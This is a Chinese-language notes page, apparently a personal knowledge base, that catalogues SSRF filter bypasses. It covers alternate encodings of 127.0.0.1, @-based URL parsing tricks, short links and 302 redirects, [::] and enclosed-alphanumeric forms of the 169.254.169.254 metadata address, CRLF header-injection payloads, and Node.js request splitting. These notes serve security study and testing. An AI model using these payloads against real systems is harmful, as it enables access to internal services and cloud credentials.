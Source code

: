 # 绕过
	- `127.0.0.1` 和 `localhost`
		- `127.0.1.1`
		- `127.1.0.1`
		- `10.10.1.1`
		- `127.1`
		- `0`
			- `0`在linux系统中会解析成`127.0.0.1`在windows中解析成`0.0.0.0`
		- 用A记录为`127.0.0.1`的域名
		- t.cn短网址
			- [生成](https://www.helingqi.com/url.php)
		- 302跳转
		- `。`代替`.`
-
- # SSRF绕过方式
- 1、限制为http://www.xxx.com 域名时（利用@）
	- 可以尝试采用http基本身份认证的方式绕过
	    如：http://www.aaa.com@www.bbb.com@www.ccc.com，在对@解析域名中，不同的处理函数存在处理差异
	    在PHP的parse_url中会识别www.ccc.com，而libcurl则识别为www.bbb.com。
- 2.采用短网址绕过
	- 比如百度短地址https://dwz.cn/
- 3.采用进制转换
	- 127.0.0.1八进制：0177.0.0.1。十六进制：0x7f.0.0.1。十进制：2130706433.
- 4.利用特殊域名
	- 原理是DNS解析。xip.io可以指向任意域名，即
	    127.0.0.1.xip.io，可解析为127.0.0.1
	    (xip.io 现在好像用不了了，可以找找其他的)
- 5.利用[::]
	- 可以利用[::]来绕过localhost
	    http://169.254.169.254>>http://[::169.254.169.254]
- 6.利用句号
	- 127。0。0。1 >>> 127.0.0.1
- 7、CRLF 编码绕过
	- %0d->0x0d->\r回车
	    %0a->0x0a->\n换行
	    进行HTTP头部注入
	- example.com/?url=http://eval.com%0d%0aHOST:fuzz.com%0d%0a
- 8.利用封闭的字母数字
	- 利用Enclosed alphanumerics
	    ⓔⓧⓐⓜⓟⓛⓔ.ⓒⓞⓜ >>> example.com
	    http://169.254.169.254>>>http://[::①⑥⑨｡②⑤④｡⑯⑨｡②⑤④]
	    List:
	    ① ② ③ ④ ⑤ ⑥ ⑦ ⑧ ⑨ ⑩ ⑪ ⑫ ⑬ ⑭ ⑮ ⑯ ⑰ ⑱ ⑲ ⑳
	    ⑴ ⑵ ⑶ ⑷ ⑸ ⑹ ⑺ ⑻ ⑼ ⑽ ⑾ ⑿ ⒀ ⒁ ⒂ ⒃ ⒄ ⒅ ⒆ ⒇
	    ⒈ ⒉ ⒊ ⒋ ⒌ ⒍ ⒎ ⒏ ⒐ ⒑ ⒒ ⒓ ⒔ ⒕ ⒖ ⒗ ⒘ ⒙ ⒚ ⒛
	    ⒜ ⒝ ⒞ ⒟ ⒠ ⒡ ⒢ ⒣ ⒤ ⒥ ⒦ ⒧ ⒨ ⒩ ⒪ ⒫ ⒬ ⒭ ⒮ ⒯ ⒰ ⒱ ⒲ ⒳ ⒴ ⒵
	    Ⓐ Ⓑ Ⓒ Ⓓ Ⓔ Ⓕ Ⓖ Ⓗ Ⓘ Ⓙ Ⓚ Ⓛ Ⓜ Ⓝ Ⓞ Ⓟ Ⓠ Ⓡ Ⓢ Ⓣ Ⓤ Ⓥ Ⓦ Ⓧ Ⓨ Ⓩ
	    ⓐ ⓑ ⓒ ⓓ ⓔ ⓕ ⓖ ⓗ ⓘ ⓙ ⓚ ⓛ ⓜ ⓝ ⓞ ⓟ ⓠ ⓡ ⓢ ⓣ ⓤ ⓥ ⓦ ⓧ ⓨ ⓩ
	    ⓪ ⓫ ⓬ ⓭ ⓮ ⓯ ⓰ ⓱ ⓲ ⓳ ⓴
	    ⓵ ⓶ ⓷ ⓸ ⓹ ⓺ ⓻ ⓼ ⓽ ⓾ ⓿
- 二、常见限制
	- 1.限制为http://www.xxx.com 域名
		- 采用http基本身份认证的方式绕过，即@
		    http://www.xxx.com@www.xxc.com
	- 2.限制请求IP不为内网地址
	- 当不允许ip为内网地址时：
	    （1）采取短网址绕过
	    （2）采取特殊域名
	    （3）采取进制转换
	- 3.限制请求只为http协议
	- （1）采取302跳转
	    （2）采取短地址
- # 指向localhost的url
	- http://newyork.localtest.me
	- http://mysite.localtest.me
	- http://redirecttest.localtest.me
	- http://sub1.sub2.sub3.localtest.me
	- http://bugbounty.dod.network
	- http://spoofed.burpcollaborator.net
- # Nodejs 在HTTP请求中伪造HTTP请求
  id:: 63c7fc34-474b-48bd-a4f8-5c5a68188c89
	- 在旧版的Nodejs中`http.get(url, f)`不会判断输入url是否合法
	- 如果让`http.get("http://127.0.0.1/?p=" + p, f)`中的p为红色的部分则会伪造多个HTTP请求
	- ![Screenshot_2023-01-18_22-13-09.png](../assets/Screenshot_2023-01-18_22-13-09_1674051197854_0.png)